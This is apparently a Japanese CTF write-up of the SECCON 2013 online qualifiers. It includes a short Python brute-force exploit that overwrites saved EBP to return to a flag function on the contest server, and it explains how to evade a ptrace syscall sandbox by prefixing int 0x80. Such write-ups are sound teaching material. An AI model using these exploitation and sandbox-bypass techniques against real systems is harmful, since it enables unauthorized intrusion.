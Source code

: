 ```yaml
---
date: '2014-01-30T11:40:33+09:00'
title: SECCON 2013 オンライン予選 writeup
categories:
 - CTF
 - writeup
tags:
 - SECCON
---
```


SECCON オンライン予選にチーム0x0のメンバーとして参加しました。

3700点で7位でした。

bin500に時間をかけ過ぎた結果、練習問題とbin200しか解けなかった。

バイナリ問題以外も見ておけばよかった

{{<image classes="fancybox" src="/assets/seccon-2013-online-quals-writeup/90b303d7e1e753a918811d598aa91f83.png" title="スコアの推移">}}



## exploit me (bin200)

EBPの最後の1バイトを上書きできる。

0x8048e80にflagを表示する関数があるのでうまくそこにリターンさせればクリア

    import subprocess
     
    for i in range(256):
        subprocess.call(r"""python -c "import sys,struct; sys.stdout.write(struct.pack('<L', 0x8048e80) * 20
     + '\x%02x')" | nc exploitme.quals.seccon.jp 31337 -v""" % i, shell=True)

## hack this site (bin500)

プロセスのメモリダンプと長時間格闘した末、終了2時間前に任意のシステムコールを呼び出す方法に気づいたが、任意のファイルを読み込めるようになったところで時間切れになってしまった。

シェルコードをサーバーに投げると、forkした子プロセス内でptraceを使用してシングルステップ実行される。

シェルコードには以下の制限がある。

 * 最大64byte
 * int 0x80、sysenterは親プロセスでエミュレートされる。
    * stdoutへのwriteは40byteのバッファへの書き込みに置換され、実行後に出力される。
    * それ以外のシステムコールは無視される。
    * システムコール実行後には子プロセスがkillされる。
    * シェルコードが展開される1024byteのバッファの外を実行しようとするとkillされる。
    * INT3するとkillされる。

システムコールへの呼び出しを
命令の先頭が一致するかどうかでチェックしているので、int
0x80の前にプレフィックスをつけるとチェックをすり抜けて任意のシステムコールが実行できる。
